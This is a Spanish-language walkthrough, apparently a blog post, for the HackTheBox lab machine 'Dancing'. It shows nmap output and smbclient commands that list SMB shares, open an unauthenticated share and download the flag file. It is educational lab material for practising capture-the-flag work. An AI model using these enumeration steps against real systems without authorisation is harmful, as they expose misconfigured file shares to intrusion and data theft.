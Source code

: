 ```yaml
---
title: Dancing HTB Walkthrough
published: true
---
```


# Dancing HTB

En este artículo trataré la resolución de una de las máquinas del Tier 0 de HackTheBox. 


## Fase de reconocimiento

Tras ejecutar nmap obtenemos la siguiente respuesta:

```
$nmap -sCV 10.129.1.12

Nmap scan report for 10.129.1.12
Host is up (0.12s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

│ Host script results:
|_clock-skew: 4h04m24s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-26T23:38:28
|_  start_date: N/A
```

Vemos que el puerto 445 se encuentra abierto y corre smb. Por lo que tratamos de listar los 
recursos compartidos.

```
$smbclient -L //10.129.1.12/

Enter WORKGROUP\ 's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
SMB1 disabled -- no workgroup available
```

Vemos que el recurso `WorkShares` no requiere de autenticación, por lo que tratamos de acceder:

```
$smbclient //10.129.1.12/WorkShares

smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

		5114111 blocks of size 4096. 1752259 blocks available

smb: \> cd James.P\

smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

		5114111 blocks of size 4096. 1752524 blocks available

smb: \James.P\> get flag.txt 
getting file \James.P\flag.txt of size 32 as flag.txt (0,1 KiloBytes/sec) (average 0,2 KiloBytes/sec)

smb: \James.P\> quit
```

Vemos que en el directorio `James.P` hay un archivo `flag.txt`, lo descargamos con `get` y comprobamos que es la flag.


Muchas gracias por leer el post, y seguid hack.